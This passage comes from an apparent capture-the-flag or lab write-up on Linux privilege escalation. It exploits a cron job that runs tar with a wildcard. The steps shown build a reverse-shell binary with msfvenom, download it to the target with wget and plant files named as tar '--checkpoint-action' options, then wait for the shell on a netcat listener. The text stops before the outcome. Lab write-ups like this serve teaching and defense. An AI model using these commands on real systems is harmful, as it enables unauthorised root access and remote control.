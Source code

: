 ```
The `tar` command appears to run with a wildcard signified by the asterisk symbol `*`, that can be exploited if not used properly. According to the `crontab` information, it seems that a backup of the `/home/user/` folder is being made every minute. Researching `tar` at [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) it looks like we can use its command options to spawn an interactive system shell!

<br/>

As instructed, let's create a `.elf` reverse shell using `msfvenon` which we will execute as a `tar` informative option later on.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f elf -o shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172459683-553b1f6b-cfe8-48d5-9db6-e60f546338e6.png)

Now let's set up a temporary python server so we can download the file from the target machine:

```
python3 -m http.server LOCAL_PORT
```

![image](https://user-images.githubusercontent.com/14150485/172460555-5eb9b9e4-27f4-47c5-a37d-06c5b5efdc20.png)

Now switch to the target machine shell and pull the file using the `wget` command:

```
wget LOCAL_IP:LOCAL_PORT/shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172460876-ead4222e-b8e4-4362-94bd-b99c3ff8913f.png)

After successfully downloading the file, we need to ensure it is an executable:

```
chmod +x shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172461015-016fc8cf-a4ce-4931-952b-1828c3a4d824.png)

Create the following files in the `/home/user` directory as instructed on the task:

`touch /home/user/--checkpoint=1`
<br/>
`touch /home/user/--checkpoint-action=exec=shell.elf`

The files we just created are valid `tar` informative output options, which we can also confirm using the `tar --help` command. Once the `tar` cron job runs, the wildcard `*` will include these files and since both filenames are valid `tar` options they will be recognized and treated as such, rather than filenames.

Next up we need to set up a `netcat` listener locally. Please note that the port number should be the same we used to create the `shell.elf` reverse shell.

`nc -lvnp LOCAL_PORT`

After a short wait the cron job runs and the listener picks up the connection to the target:

```